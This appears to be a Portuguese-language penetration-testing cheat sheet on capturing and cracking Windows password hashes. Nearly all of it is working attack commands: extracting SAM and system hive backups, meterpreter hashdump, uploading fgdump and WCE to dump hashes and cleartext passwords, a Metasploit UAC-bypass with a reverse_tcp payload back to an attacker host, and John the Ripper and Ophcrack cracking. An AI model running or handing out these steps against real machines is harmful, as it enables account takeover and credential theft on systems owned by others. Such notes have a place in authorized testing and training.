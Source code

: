 # Senha no Windows

## Windows XP, Windows Server 2003 ou inferior

### Capturando hash

Arquivo contendo os hashs de usuários:
C:/windows/system32/config/SAM
*Esse arquivo é criptografado, porém a chave fica dentro do arquivo system na mesma pasta.*
*Também não é possível efetuar o download desses arquivos via meterpreter.*

Contudo no diretório **C:/windows/repair** há um backup dos arquivos **SAM** e **system**, sendo possível efetuar o download via meterpreter.

Para descriptografar o arquivo SAM:
bkhive system bootkey.txt ==> Será gerado o bootkey
samdump2 sam bootkey.txt ==> Será gerado os hashs de senhas

Também é possível pegar os hashs através do comando do meterpreter:
materpreter > hashdump

Ou através do fgdump que no Kali Linux fica no diretório /usr/share/windows-binaries/fgdump/fgdump.exe:
meterpreter > upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\
C:\> fgdump.exe ==> Será gerado dois arquivos, **127.0.0.1.cachedump** e **127.0.0.1.pwdump**.
C:\> type 127.0.0.1.cachedump ==> Para visualizar o arquivo que normalmente traz usuários de rede.
C:\> typr 127.0.0.1.pwdump ==> Para visualizar o arquivo.

### Quebrando hash

Quebrando o hash:
john hash.txt --format=lm --show

Quebrando o hash com wordlist personalizada:
john hash.txt --format=lm --wordlist=wordlist.txt --show

*Wordlist padrão: /usr/share/john/password.lst*

Outra opção é efetuar a quebra através do Ophcrack.
Baixe antes as tables do Ophcrack em **http://ophcrack.sourceforge.net/**.

## Windows Vista ou superior

No Windows 7 em muitos casos não é possível executar o hashdump pelo fato de não estar com um usuário do sistema. Porém o meterpreter tem uma função de escalar privilégio através do seguinte comando:
meterpreter > getsystem

Caso o comando getsystem não tenha efeito, podemos utilizar algum exploit para dar bypass em UAC:
msf > search bypassuac
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > sessions -l ==> Ou seja, é necessário ter uma sessão ativa em background. Veja o ID da sessão que usaremos no exploit.
msf exploit(bypassuac) > set SESSION 1
msf exploit(bypassuac) > set payload windows/meterpreter/reverse_tcp
msf exploit(bypassuac) > set LHOST 192.168.0.100
msf exploit(bypassuac) > set LPORT 443
msf exploit(bypassuac) > exploit
msf exploit(bypassuac) > session -i 2
meterpreter > getuid ==> Para ver o usuário.
meterpreter > getsystem ==> Para escalar o privilégio.
meterpreter > hashdump

Há uma outra opção de pegar o hashdump caso a opção acima apresente erro:
msf > use post/windows/gather/smart_hashdump
msf post(smart_hashdump) > set SESSION 2
msf post(smart_hashdump) > run

### Quebrando hash

Quebrando o hash:
john hash.txt --format=nt --show

Quebrando o hash com wordlist personalizada:
john hash.txt --format=nt --wordlist=wordlist.txt --show

*Wordlist padrão: /usr/share/john/password.lst*

Outra opção é efetuar a quebra através do Ophcrack.
Baixe antes as tables do Ophcrack em **http://ophcrack.sourceforge.net/**.


## Sequestro de senha através de WCE

Caminho padrão do WCE no Kali Linux:
/usr/share/wce/

Upload do WCE:
meterpreter > upload /usr/share/wce/wce-universal.exe c:/

Execução do WCE:
meterpreter > shell
C:\>wce-universal.exe
C:\>wce-universal.exe -w ==> Irá trazer a senha em texto claro.
